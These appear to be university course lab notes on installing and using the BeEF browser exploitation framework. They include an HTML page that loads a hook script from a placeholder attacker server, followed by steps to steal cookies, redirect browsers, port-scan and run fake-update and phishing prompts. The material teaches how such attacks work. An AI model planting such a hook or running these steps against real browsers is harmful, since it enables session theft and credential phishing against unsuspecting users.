 <h5><em>ver: Aug-2022</em></h5>

---

<h2>Browser Exploitation Framework (BeEF)</h2>

Refer to https://beefproject.com/

<h4>Setup BeEF</h4>

1. Install BeEF on Kali Linux (Not a default tool)
2. Setup BeEF configuration file (set id and password)
3. Open BeEF
4. Open a web browser and go to "http://localhost:3000/ui/authentication".
5. Enter the id and passwd to the browser

```sh
sudo apt install beef-xss
# set id/passwd. Default values does not work.
sudo nano /etc/beef-xss/./config.yaml
cd /usr/share/beef-xss
./beef

```

---

<h4>Exploitation Example</h4>

1. Identify attacker's ip-address

```sh
ifconfig
```

2. Identify victim's ip-address

```sh
ipconfig
ping attack-ip-address
```

3. Create a compromised web page by hooking the BeEF script

```html
<html lang="en">
    <head>
        <title>CS 435 Demo Page (BeEF)</title>
    </head>
    <body>
        <script src="http://attacker-server-ip-address:3000/hook.js"></script>
        <h2>This is CS 435 Demo Page</h2>
        <h4>School of Arts and Sciences</h4>
        <h4>Carolina University</h4>
        <h3>THIS IS A MALICIOUS WEB-PAGE</h3>
        <a href="http://cnn.com"> LINK to "cnn.com" </a>
    </body>
</html>
```

4. A victim's web-browser access to the compromised web-server. (Attacker's server)

5. Verify hook-ups on BeEF

    5-1. Current Browser -> Details

    5-2. Current Browser -> Network

6. Control the victim's web-browser.

    6-1. Current Browser -> Command -> Browser -> Get Cookie -> check Command results

    6-2. Current Browser -> Command -> Browser -> Redirect Browser (iFrame) -> set New Favicon & Redirect URL (Monitor the url window)

    6-3. Current Browser -> Command -> Network -> Port Scanner -> set ip-address for scanning

    6-4. Current Browser -> Command -> Social Engineering -> Fake Flash Update -> set Image & Custom Payload URL

    6-5. Current Browser -> Command -> Social Engineering -> Google Phishing -> set XSS hook URI -> check Command results

    6-6. Current Browser -> Command -> Social Engineering -> Pretty Theft -> set Dialog Type & Custom Logo -> check Command results
